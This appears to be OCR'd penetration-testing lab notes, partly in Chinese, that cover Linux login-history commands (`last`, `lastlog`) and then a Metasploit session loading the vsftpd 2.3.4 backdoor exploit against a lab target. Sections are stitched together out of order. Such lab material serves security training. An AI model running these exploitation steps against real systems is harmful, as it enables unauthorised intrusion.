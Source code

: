 We can also utilize the `last` command to show a listing of the last users that logged on to the system.

```
last
```

It doesn't display any information, which means that no users have logged on to the system legitimately.

You're looking at this environment and you've gained access to the target system via the root user, why isn't that being reflected here? This command only displays legitimate connections or authentication that has been made legitimately, either through SSH or through a physical TTY session. 

We can also utilize the `lastlog` command to display a list of users that have logged into the system.

```
lastlog
```

This will sort out the information based on the following columns. The IP address they're connecting from, and when they logged in. In this case, because no user has ever logged in via SSH or have logged in physically, it's not being reflected here. However, if a user logged in via SSH, then it would show you that information.

# Enumerating Users & Groups
## Overview
Goal

This lab covers the process enumerating the users and groups on a target system running Linux.

# 枚举用户和组
## 概述
目标

本实验涵盖在运行 Linux 的目标系统上枚举用户和组的过程。

## 复现视频内容
Kali Linux : 192.141.187.2

Target IP Address : 192.141.187.3

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.141.187.3    yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)
```